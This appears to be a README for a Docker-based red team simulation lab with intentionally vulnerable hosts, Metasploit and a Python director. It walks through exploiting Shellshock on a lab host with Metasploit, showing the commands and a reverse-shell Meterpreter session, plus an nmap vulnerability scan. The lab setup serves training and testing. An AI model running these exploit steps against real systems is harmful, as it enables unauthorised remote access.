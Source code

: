 # redteam

Red Team simulation

## Components

- Postgres database
- Vulnerable hosts:
  - Apache httpd vulnerable to shellshock
  - DVWA (Damn Vulnerable Web Application)
- Metasploit RPC api (red team worker)
- Python director (red team director)
- Metasploit console (for debugging)




## Requirements

1. Install docker and docker-compose




## Usage

1. Start the database: `docker-compose -f docker-compose-db.yml up -t 2`
   (persistence is disabled, removing the container will reset the data)
1. Start director and workers: `docker-compose -f docker-compose-workers.yml up -t 2`
1. Start the director: `docker-compose up --build -t 2`


## Manual use of metasploit

If you want to debug the state of the database or perform 
manual actions in metasploit, you can connect to the
msfconsole by ```docker attach redteam_msfconsole_1```


<details>
  <summary>Remote code execution exploiting Shellshock</summary>

### Example attack


Scan the hostname "target2"
```
> db_nmap target2
```

Check that the host is now in the database
```
> hosts
Hosts
=====

address     mac                name                               os_name  os_flavor  os_sp  purpose  info  comments
-------     ---                ----                               -------  ---------  -----  -------  ----  --------
172.19.0.3  02:42:ac:13:00:03  redteam_target2_1.redteam_default  Unknown                    device         
```

Check which services are now in the database
```
> services
Services
========

host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
172.19.0.3  80    tcp    http   open 
```

Let's assume you expect the host to be vulnerable to shellshock, let's exploit it:
```
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
> set RHOSTS target2
> set TARGETURI /cgi-bin/stats
```

Run the exploit:
```
> exploit

[*] Started reverse TCP handler on 172.19.0.6:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (976712 bytes) to 172.19.0.3
[*] Meterpreter session 1 opened (172.19.0.6:4444 -> 172.19.0.3:60846) at 2020-11-04 12:52:22 +0000

meterpreter >
```

Profit!


</details>


<details>
  <summary>Vulnerability scanning</summary>

```
  mkdir -p $HOME/.nmap/scripts && wget -O $HOME/.nmap/scripts/vulners.nse 'https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse' && nmap --script-updatedb
  nmap -sV --script vulners  --script-args mincvss=6.0 target1
```
</details>
